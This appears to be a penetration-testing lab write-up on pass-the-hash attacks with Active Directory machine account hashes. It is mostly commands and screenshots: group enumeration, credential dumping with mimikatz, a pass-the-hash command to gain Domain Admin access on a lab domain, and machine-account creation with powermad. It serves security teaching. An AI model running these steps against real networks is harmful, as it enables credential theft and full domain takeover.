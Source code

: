 # Pass the Hash with Machine$ Accounts

This lab looks at leveraging machine account NTLM password hashes or more specifically - how they can be used in pass the hash attacks to gain additional privileges, depending on which groups the machine is a member of \(ideally administrators/domain administrators\).

This labs is based on an assumption that you have gained local administrator privileges on a workstation \(machine\), let's call it `WS01$`. Since you have done your AD enumeration, you notice that the WS01$ is a member of `Domain Admins` group - congratulations, you are one step away from escalating from local admin to Domain Admin and a full domain compromise.

## Execution

Finding domain computers that are members of interesting groups:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
Get-ADComputer -Filter * -Properties MemberOf | ? {$_.MemberOf}
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/screenshot-from-2018-12-29-16-03-19.png)

Of course, the same can be observed by simply checking the Domain Admins net group:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
net group "domain admins" /domain
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/screenshot-from-2018-12-29-17-22-59.png)

or administrators group \(not applicable to our lab, but showing as a sidenote\):

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
net localgroup administrators /domain
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/screenshot-from-2018-12-29-17-24-07.png)

In AD, the highlighted part can be seen here:

![](../../.gitbook/assets/screenshot-from-2018-12-29-16-36-17.png)

Extracting the machine `WS01$` NTLM hash after the admin privileges were gained on the system:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
sekurlsa::logonPasswords
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/screenshot-from-2018-12-29-15-29-17.png)

Let's check that our current compromised user `ws01\mantvydas` \(local admin on ws01\) cannot access the domain controller DC01 just yet:

![](../../.gitbook/assets/screenshot-from-2018-12-29-15-47-10.png)

Since WS01$ machine is a member of `Domain Admins` and we have extracted the machine's hash with mimikatz, we can use mimikatz to pass that hash and effectively elevate our access to Domain Admin:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
sekurlsa::pth /user:ws01$ /domain:offense.local /ntlm:ab53503b0f35c9883ff89b75527d5861
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/screenshot-from-2018-12-29-15-52-35.png)

Below shows how the machine's hash is passed which results in an elevated cmd.exe prompt. Using the elevated prompt enables us to access the domain controller as shown with `dir \\dc01\c$`:

![](../../.gitbook/assets/peek-2018-12-29-15-49.gif)

## Remember

It's worth re-emphasizing that computer/machine accounts are essentially the same as user accounts and can be as dangerous if misconfigured.

Let's create a new machine account with powermad like so:

```csharp
New-MachineAccount -MachineAccount testmachine
```

![](../../.gitbook/assets/image%20%28177%29.png)

Now, let's say someone added the testmachine$ account into Domain Admins:

```csharp
Get-NetGroupMember "domain admins" | select membern*
```

![](../../.gitbook/assets/image%20%28141%29.png)

...if we somehow get hold of the testmachine$ password, we can escalate to a DA. We can check this by opening a new console and logging in as testmachine$ with `/netonly` flag. Note how initially the user spotless cannot list files on the DC01, but once `runas /user:testmachine$ /netonly powershell` is run and the password is provided, DC01 is no longer complaining and allows spotless listing its file system:

![](../../.gitbook/assets/image%20%2874%29.png)

## References

{% embed url="https://blog.secarma.co.uk/labs/using-machine-account-passwords-during-an-engagement" %}

{% embed url="https://www.c0d3xpl0it.com/2018/05/machine-accounts-in-pentest-engagement.html?m=1" %}

